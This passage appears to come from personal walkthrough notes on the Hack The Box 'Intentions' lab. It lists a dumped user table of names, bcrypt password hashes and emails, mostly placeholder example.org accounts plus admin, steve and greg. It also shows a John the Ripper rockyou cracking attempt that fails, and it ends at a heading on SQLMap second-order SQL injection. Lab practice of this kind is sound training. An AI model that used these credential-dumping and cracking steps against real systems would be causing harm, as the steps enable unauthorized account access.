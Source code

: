 ---COPY-TO-VI---
vi creds > Copy here
> :%s/,/\r/g (Refer to commands notes VIM)

---OUTPUT---
"1:steve:$2y$10$M\/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa:steve@intentions.htb
1:greg:$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m:greg@intentions.htb
0:Melisa Runolfsson:$2y$10$bymjBxAEluQZEc1O7r1h3OdmlHJpTFJ6CqL1x2ZfQ3paSf509bUJ6:hettie.rutherford@example.org
0:Camren Ullrich:$2y$10$WkBf7NFjzE5GI5SP7hB5\/uA9Bi\/BmoNFIUfhBye4gUql\/JIc\/GTE2:nader.alva@example.org
0:Mr. Lucius Towne I:$2y$10$JembrsnTWIgDZH3vFo1qT.Zf\/hbphiPj1vGdVMXCk56icvD6mn\/ae:jones.laury@example.com
0:Jasen Mosciski:$2y$10$oKGH6f8KdEblk6hzkqa2meqyDeiy5gOSSfMeygzoFJ9d1eqgiD2rW:wanda93@example.org
0:Monique D'Amore:$2y$10$pAMvp3xPODhnm38lnbwPYuZN0B\/0nnHyTSMf1pbEoz6Ghjq.ecA7.:mwisoky@example.org
0:Desmond Greenfelder:$2y$10$.VfxnlYhad5YPvanmSt3L.5tGaTa4\/dXv1jnfBVCpaR2h.SDDioy2:lura.zieme@example.org
0:Mrs. Roxanne Raynor:$2y$10$UD1HYmPNuqsWXwhyXSW2d.CawOv1C8QZknUBRgg3\/Kx82hjqbJFMO:pouros.marcus@example.net
0:Rose Rutherford:$2y$10$4nxh9pJV0HmqEdq9sKRjKuHshmloVH1eH0mSBMzfzx\/kpO\/XcKw1m:mellie.okon@example.com
0:Dr. Chelsie Greenholt I:$2y$10$by.sn.tdh2V1swiDijAZpe1bUpfQr6ZjNUIkug8LSdR2ZVdS9bR7W:trace94@example.net
0:Prof. Johanna Ullrich MD:$2y$10$9Yf1zb0jwxqeSnzS9CymsevVGLWIDYI4fQRF5704bMN8Vd4vkvvHi:kayleigh18@example.com
0:Prof. Gina Brekke:$2y$10$UnvH8xiHiZa.wryeO1O5IuARzkwbFogWqE7x74O1we9HYspsv9b2.:tdach@example.com
0:Jarrett Bayer:$2y$10$yUpaabSbUpbfNIDzvXUrn.1O8I6LbxuK63GqzrWOyEt8DRd0ljyKS:lindsey.muller@example.org
0:Macy Walter:$2y$10$01SOJhuW9WzULsWQHspsde3vVKt6VwNADSWY45Ji33lKn7sSvIxIm:tschmidt@example.org
0:Prof. Devan Ortiz DDS:$2y$10$I7I4W5pfcLwu3O\/wJwAeJ.xqukO924Tx6WHz1am.PtEXFiFhZUd9S:murray.marilie@example.com
0:Eula Shields:$2y$10$0fkHzVJ7paAx0rYErFAtA.2MpKY\/ny1.kp\/qFzU22t0aBNJHEMkg2:barbara.goodwin@example.com
0:Mariano Corwin:$2y$10$p.QL52DVRRHvSM121QCIFOJnAHuVPG5gJDB\/N2\/lf76YTn1FQGiya:maggio.lonny@example.org
0:Madisyn Reinger DDS:$2y$10$GDyg.hs4VqBhGlCBFb5dDO6Y0bwb87CPmgFLubYEdHLDXZVyn3lUW:chackett@example.org
0:Jayson Strosin:$2y$10$Gy9v3MDkk5cWO40.H6sJ5uwYJCAlzxf\/OhpXbkklsHoLdA8aVt3Ei:layla.swift@example.net
0:Zelda Jenkins:$2y$10$\/2wLaoWygrWELes242Cq6Ol3UUx5MmZ31Eqq91Kgm2O8S.39cv9L2:rshanahan@example.net
0:Eugene Okuneva I:$2y$10$k\/yUU3iPYEvQRBetaF6GpuxAwapReAPUU8Kd1C0Iygu.JQ\/Cllvgy:shyatt@example.com
0:Mrs. Rhianna Hahn DDS:$2y$10$0aYgz4DMuXe1gm5\/aT.gTe0kgiEKO1xf\/7ank4EW1s6ISt1Khs8Ma:sierra.russel@example.com
0:Viola Vandervort DVM:$2y$10$iGDL\/XqpsqG.uu875Sp2XOaczC6A3GfO5eOz1kL1k5GMVZMipZPpa:ferry.erling@example.com
0:Prof. Margret Von Jr.:$2y$10$stXFuM4ct\/eKhUfu09JCVOXCTOQLhDQ4CFjlIstypyRUGazqmNpCa:beryl68@example.org
0:Florence Crona:$2y$10$NDW.r.M5zfl8yDT6rJTcjemJb0YzrJ6gl6tN.iohUugld3EZQZkQy:ellie.moore@example.net
0:Tod Casper:$2y$10$S5pjACbhVo9SGO4Be8hQY.Rn87sg10BTQErH3tChanxipQOe9l7Ou:littel.blair@example.org
0:admin:$2y$10$utoa2.719YBCIT.UVtGPSOCAgn6rI4jsq\/os2I5.Fz.A\/lbCHRPaG:admin@intentions.htb"
```
			- I checked just admin and say and lot of 0's and a few 1's..so I'm assuming 1 would imply it is admin
				- steve and greg
			- I try to crack their password with john
				```bash
vi hash > Copy the 2 hashes
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
				- We get nothing
### SQLMap with second order SQLi (NON OSCP Route)